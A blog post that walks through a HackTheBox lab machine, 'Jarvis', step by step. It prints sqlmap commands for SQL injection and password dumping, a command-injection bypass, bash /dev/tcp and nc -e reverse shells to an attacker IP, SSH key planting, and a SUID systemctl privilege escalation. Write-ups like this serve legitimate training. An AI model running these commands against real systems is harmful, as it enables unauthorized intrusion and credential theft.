





+++
title = "Jarvis"
date = 2019-11-09
[taxonomies]
tags = ["hackthebox"]
+++

1. Port 80 and 64999. Port 80 hosts a bootstrap website. Port 64999 shows I've been banned for 90 seconds page. I don't think that part of true as my scans were still running but we'll note this down for now.

2. `nikto` scans shows that there is a phpmyadmin being hosted on port 80 and the version can be found at: [http://jarvis/phpmyadmin/ChangeLog](http://jarvis/phpmyadmin/ChangeLog) - version 4.8.0 (2018 04 07)

	After reading couple of exploits for phpmyadmin 4.8.0, I decided to try to use Metasploit module and see if it will work. Unfortunately it didn't.

	

3. Being stuck on this problem for couple of hours, all my scans show up without much useful information to work with. The only thing left I could think about are SQL injections which I did had a hunch about from reading the past phpmyadmin exploits.

	But where do we begin to perform SQL injections? Browsing the Jarvis website, there is a page that shows a list of room suites and the URL generates a `cod=5` parameter. I'm going to test to see if it's vulnerable to SQL injection.

	Using `burpsuite`, I saved a GET request to a file so I can use `sqlmap` to read it.

	```shell
	sqlmap -r singlereq -p cod --passwords
	```

	

	Looks like I got a hit for the phpmyadmin login and password. I'll keep this aside and see if I could get a shell that we can upload files with.

	```shell
	sqlmap -r singlereq -p cod --os-shell
	```

	An os-shell is accessible and we're able to upload and execute a PHP reverse shell file for a `www-data` user shell.

4. Running the `linenum` and `linuxprivchecker` scripts showed there is a sudoers access to a python file at `/var/www/Admin-Utilities/simpler.py`

	After reviewing the python script, there is a ping function that blacklists certain characters. Doing some online research shows there is a way to execute commands with $, (, and ) characters.

	Before we do that, lets create a reverse shell script for execution.

	```shell
	echo "bash -i >& /dev/tcp/10.10.14.9/8080 0>&1" > /var/tmp/rs.sh
	```

5. Execute the simpler.py script:

	```shell
	sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
	```

	When the prompt shows up asking for an IP, enter this command:

	```shell
	$(bash /tmp/rs.sh)
	```

	

	A reverse shell with `pepper` user access has now been established and able to obtain the user.txt flag.

### Privilege Escalation

1. Reading through my `linenum` and `linuxprivchecker` scripts, I noticed that the `systemctl` binary has an SUID flag set.

	```shell
	-rwsr-x--- 1 root pepper 174520 Feb 17 03:22 /bin/systemctl
	```

	According to [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), SUID set can lead to privilege escalation. It wasn't as easy as I thought.

	I tried following the instructions and it will throw shell related errors such as:

	```shell
	The name org.freedesktop.PolicyKit1 was not provided by any .service files
	```

2. I haven't seen these type of errors before and googling didn't help. Asking for HTB users for a hint, I would have never thought of escalating my shell to something more stable. At first when I thought about this hint, I thought it meant that I should reverse shell again somewhere. Then I remembered that SSH was enabled on this box but how would I log in if I don't have the password for `pepper` user and can't execute `passwd` to change it? A light bulb went off and I figured since I am `pepper` technically, I can create ssh `authorized_keys` into the `pepper` home directory with my own public key and ssh using my private key.

	```shell
	mkdir .ssh

	wget http://10.10.14.9/id_rsa.pub ~/.ssh/authorized_keys
	```

	Then we SSH using my private key for access:

	```shell
	ssh -i ~/.ssh/id_rsa pepper@jarvis
	```

	Now we can begin with following GTFOBins `systemctl` instructions and it should now work.

3. Create the service file using `systemctl` with modified ExecStart value using `nc`:
	
	```shell
	TF=privesc.service
	echo '[Service]
	Type=oneshot
	ExecStart=/bin/sh -c "/bin/nc -e /bin/sh 10.10.14.9 4444"
	[Install]
	WantedBy=multi-user.target' > $TF
	```

4. Create a symbolic link using `systemctl`:

	```shell
	/bin/systemctl link /home/pepper/privesc.service
	```

5. Setup a `nc` session to receive the root reverse shell:

	```shell
	nc -nvlp 4444
	```

6. Enable the newly created service using `systemctl`:
	
	```shell
	/bin/systemctl enable --now /home/pepper/privesc.service
	```

	

	

`Protip`{: .info }

Always try to execute binaries as absolute paths and in different directories. Sometimes you'll get cases where files don't get executed where you saved the files.